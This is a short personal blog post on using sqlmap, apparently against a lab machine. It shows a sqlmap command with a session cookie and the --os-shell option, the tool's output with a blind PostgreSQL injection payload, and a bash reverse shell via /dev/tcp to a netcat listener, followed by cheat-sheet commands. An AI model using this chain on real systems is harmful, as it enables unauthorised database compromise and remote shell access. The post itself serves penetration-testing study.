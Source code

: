 ```yaml
---
title: "Tool: SQLMap"
date: 2021-01-02T02:34:30-04:00
categories:
  - Blog
  - Tool
tags:
  - shell
  - tool
  - commands
  - SQL
  - sqlmap
---
```


This is the command string to test if a SQL backed web page is vulnerable to SQL injection:

Needs:
1. the injection field = '?search=1234' in the url
2. the session cookie = from inspecting the page - application tab - storage - cookie
3. the command extention = '--os-shell'

The Command:

'sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell,

```yaml
──(kali㉿kali)-[~]
└─$ ──(kali㉿kali)-[~]
└─$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=k3ivqlrh8f7i68p3vis6pmjsal" --os-shell
        ___
       __H__                                                         
 ___ ___[']_____ ___ ___  {1.4.12#stable}                            
|_ -| . [(]     | .'| . |                                            
|___|_  [(]_|_|_|__,|  _|                                            
      |_|V...       |_|   http://sqlmap.org                          



[*] starting @ 20:42:21 /2021-01-01/

[20:42:21] [INFO] resuming back-end DBMS 'postgresql' 
[20:42:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=a' AND (SELECT (CASE WHEN (6996=6996) THEN NULL ELSE CAST((CHR(113)||CHR(83)||CHR(65)||CHR(77)) AS NUMERIC) END)) IS NULL-- IJNJ


os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'
do you want to retrieve the command standard output? [Y/n/a] 
```

You can use any OS command here:

ls
id
uname -a
whoami

in the example I passes in a net cat shell back to another terminal I had running a nc listener 'nc -nlvp 4321'

'bash -c 'bash -i >& /dev/tcp/10.10.14.87/4321 0>&1'

Note: the session was not stable but I was able to keep it open long enough to open another connection not bases on sqli


[SQLMap Cheat Sheet :][upgrade-term]

Sample:

Simple Usage
If you don’t know anything about the target site then use the normal command first, Observe if the sqlmap found something juicy for you

sqlmap -u “https://target_site.com/page/”
Automatic GET request parameter
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”


[upgrade-term]: https://thedarksource.com/sqlmap-cheat-sheet/
